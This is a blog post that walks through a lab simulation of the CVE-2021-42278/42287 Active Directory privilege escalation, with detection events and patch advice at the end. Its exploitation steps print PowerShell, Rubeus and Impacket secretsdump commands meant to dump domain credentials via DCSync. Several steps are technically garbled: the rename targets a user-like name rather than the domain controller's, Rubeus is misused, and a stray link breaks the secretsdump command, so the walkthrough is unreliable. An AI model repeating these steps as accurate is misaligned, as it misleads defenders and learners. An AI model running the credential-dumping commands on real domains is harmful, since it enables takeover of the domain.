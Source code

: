 ```yaml
---
title: Exploiting CVE-2021-42278 & CVE-2021-42287 – From User to Domain Admin
published: 2025-04-18
updated: 2025-04-18
description: 'Simulating a real-world privilege escalation attack using CVE-2021-42278 and CVE-2021-42287 in Active Directory to gain Domain Admin access from a low-privileged user'
image: 'CVE-2021-42278.webp'
tags: [CVEs]
category: 'Active Directory Attacks'
draft: false 
lang: 'ar-eng'
---
```


## Table of Contents

1. [Introduction](#cve-2021-42278--cve-2021-42287-from-user-to-domain-admin-simulating)
2. [Why is this Attack Important?](#why-is-this-attack-important)
3. [Vulnerability Overview](#2-vulnerability-overview)  
   - [CVE-2021-42278 – SAMAccountName Spoofing](#cve-2021-42278-samaccountname-spoofing)  
   - [CVE-2021-42287 – Kerberos Privilege Escalation](#cve-2021-42287-kerberos-privilege-escalation)
4. [Lab Setup (Tools + Env)](#3-lab-setup-tools--env)
5. [Step-by-Step Exploitation](#4-step-by-step-exploitation)  
   - [Step 1: Login as a regular user](#step-1-login-as-a-regular-user)  
   - [Step 2: Rename a Computer Object](#step-2-rename-a-computer-object-to-a-user-like-name)  
   - [Step 3: Modify sAMAccountName](#step-3-modify-samaccountname-to-match-user-name)  
   - [Step 4: Request a TGT](#step-4-request-a-tgt-for-the-spoofed-computer)  
   - [Step 5: Impersonate the Domain Controller](#step-5-impersonate-the-domain-controller--perform-dcsync)  
   - [Step 6: Domain Admin Access](#step-6-profit--domain-admin-access)
6. [Detection & Blue Team View](#5-detection--blue-team-view)
7. [Patch & Mitigation Tips](#6-patch--mitigation-tips)
8. [References + Final Thoughts](#7-references--final-thoughts)


## "CVE-2021-42278 && CVE-2021-42287" From User to Domain Admin: Simulating

In the world of **advanced cyber attacks** on Active Directory, there are several vulnerabilities that continue to affect systems even after updates. One such vulnerability duo that caused a lot of concern were **CVE-2021-42278** and **CVE-2021-42287**, discovered in late 2021. These vulnerabilities allow an attacker to escalate from **a low-privileged user to Domain Admin** using **simple tools**.

### `Why is this attack important?`

This attack is unique for several reasons:

- **No misconfigurations required**: The attack relies solely on vulnerabilities within Active Directory itself.
- **Simplicity of exploitation**: By leveraging these built-in vulnerabilities, an attacker can easily escalate to **Domain Admin** rights with minimal effort.

In this post, we will **simulate** this attack in a lab environment using these CVEs, showcasing how they can be exploited on unpatched systems.

### `2. Vulnerability Overview`

### `📌 CVE-2021-42278: SAMAccountName Spoofing`

This vulnerability allows an attacker to spoof the name of a computer account in Active Directory to make it appear as a user account. The idea is that **Active Directory** checks the `sAMAccountName` to determine if the account is a real computer or a user. With this flaw, an attacker can **create a fake computer object** in AD and assign it a name similar to a user.

### `📌 CVE-2021-42287: Kerberos Privilege Escalation`

**CVE-2021-42287** leverages **Kerberos** to escalate privileges. The attacker requests a **TGT (Ticket Granting Ticket)** for the spoofed computer. This ticket allows the attacker to **impersonate the Domain Controller**, which in turn gives them the ability to escalate and gain **Domain Admin** privileges.

---

### 🧪 **3. Lab Setup (Tools + Env)**

To conduct the simulation, the following environment will be used:

| **Component** | **Description** |
| --- | --- |
| **OS** | Windows Server 2019 (unpatched, pre-Nov 2021) |
| **Tools** | Mimikatz, Rubeus, Impacket, KrbRelayUp |
| **User Account** | One low-privileged domain user (`amr.user@corp.local`) |
| **Domain Controller** | Unpatched Domain Controller (pre-Nov 2021 patches) |

---

### `**4. Step-by-Step Exploitation**`

### **Step 1: Login as a regular user**

Let’s assume we have a **low-privileged user** called `amr.user` on the domain `corp.local`. After logging in as the regular user, we proceed with the attack.

### **Step 2: Rename a Computer Object to a User-Like Name**

This is where **CVE-2021-42278** comes into play. We change the name of a computer object to resemble a user name. This can be done via PowerShell:

```basic
Rename-ADObject "CN=WIN10-CLIENT,CN=Computers,DC=corp,DC=local" -NewName "amruser"

```

Now, the `WIN10-CLIENT` computer is renamed to `amruser` in AD.

### **Step 3: Modify `sAMAccountName` to Match User Name**

Next, we modify the **sAMAccountName** of the computer object to match the user name:

```basic
Set-ADComputer -Identity "amruser" -SamAccountName "amruser"

```

### **`Step 4: Request a TGT for the Spoofed Computer`**

Now, using **Rubeus**, we request a **Kerberos Ticket** for the spoofed computer. This ticket will allow us to **impersonate** the Domain Controller:

```basic
rubeus tgtdeleg /user:amruser$ /rc4:<ntlm_hash> /domain:corp.local

```

### **`Step 5: Impersonate the Domain Controller & Perform DCSync`**

At this point, we use **Impacket** to dump **NTDS** from the Domain Controller as if we were the DC:

```basic
[secretsdump.py](http://secretsdump.py/) -k -no-pass CORP/amruser$@dc.corp.local
```

Now, we have **all the user information from the domain** and can escalate our privileges.

**`Step 6: Profit – Domain Admin Access`**

With the user information and passwords obtained from **NTDS.DIT**, we can easily use the proper tools to access Domain Admin accounts or impersonate users with high privileges.

---

### `**5. Detection & Blue Team View**`

**How to Detect This Attack:**
To detect this attack, defenders should look for the following patterns:

- **Event ID 4741**: This event is logged when a **new computer account** is created.
- **Event ID 4781**: This event is logged when a **`sAMAccountName`** is changed.
- **Kerberos TGT Anomalies**: Watch for unusual TGT requests, especially if the account being used is a computer and not a real user.
- **Logon Logs**: Monitor unusual login attempts that could indicate an attacker is spoofing privileges.

---

### **`6. Patch & Mitigation Tips`**

**To Protect Your Domain:**

1. ✅ **Apply November 2021 Patch**: Apply updates to mitigate the vulnerabilities.
2. ✅ **Monitor & Limit Computer Object Modifications**: Restrict who can modify computer object names in AD.
3. ✅ **Audit SAMAccountName Changes**: Perform audits on changes to `sAMAccountName` for any computer objects.
4. ✅ **Limit Access to Domain Controller**: Ensure only authorized users can access the Domain Controller.

### `7. References + Final Thoughts`

**Official Advisories:**

- [CVE-2021-42278 – Microsoft Docs](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278)
- [CVE-2021-42287 – Microsoft Docs](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

**Tools Used:**

- [Rubeus](https://github.com/GhostPack/Rubeus)
- [Impacket](https://github.com/fortra/impacket)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

This attack chain using **CVE-2021-42278** and **CVE-2021-42287** shows how **vulnerable** Active Directory can be in some configurations. The attack does not rely on misconfigurations but on how **AD handles names and Kerberos tickets**.

To conclude, **Active Directory** security needs constant attention, and vulnerabilities like these can allow attackers to compromise entire networks **without needing any misconfiguration**.